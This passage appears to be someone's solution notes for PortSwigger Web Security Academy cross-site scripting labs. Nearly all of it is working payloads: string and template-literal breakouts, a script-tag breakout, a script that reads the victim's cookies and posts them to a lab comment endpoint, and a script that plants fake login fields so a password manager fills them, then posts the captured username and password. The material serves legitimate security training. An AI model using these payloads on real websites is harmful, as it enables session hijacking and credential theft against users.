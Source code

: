 ```javascript
'-alert(document.domain)-' 
';alert(document.domain)//
```

- ##### Lab: Reflected XSS into a JavaScript string with single quote and backslash escaped

```html 
</script><script>alert(1)</script>
```

- ##### Lab: Reflected XSS into a template literal with angle brackets, single, double quotes, backslash and backticks Unicode-escaped

```javascript
${alert(1)}
```


- ##### Lab: Exploiting cross-site scripting to steal cookies

```html
<script>  
window.onload = () => {
const csrf = document.getElementsByTagName('form')[0].getElementsByTagName('input')[0].value;

    fetch('https://0a9900d5042125be80f9ccc7009a0036.web-security-academy.net/post/comment', {
    method: 'POST',
    body: `csrf=${csrf}&postId=4&comment=${document.cookie}&name=foo&email=foo@example.com&website=`,  
    });  
}  
</script>
```


- ##### Lab: Exploiting cross-site scripting to capture passwords

```html
<input name="username" id="username">  
<input type="password" name="password" id="password">

<script>  
// it may work also with window.onload, but I opted for 1s delay to let the password manager fill in the username and password fields  
setTimeout(() => {  
    const csrf = document.getElementsByTagName('form')[0].getElementsByTagName('input')[0].value;  
    const username = document.getElementById('username').value;  
    const password = document.getElementById('password').value;

    fetch('https://0aec008b0337db878095a879004b00e7.web-security-academy.net/post/comment', {
    method: 'POST',
    body: `csrf=${csrf}&postId=5&comment=${username}:${password}&name=foo&email=foo@example.com&website=`,  
    });  
}, 1000);  
</script>
```

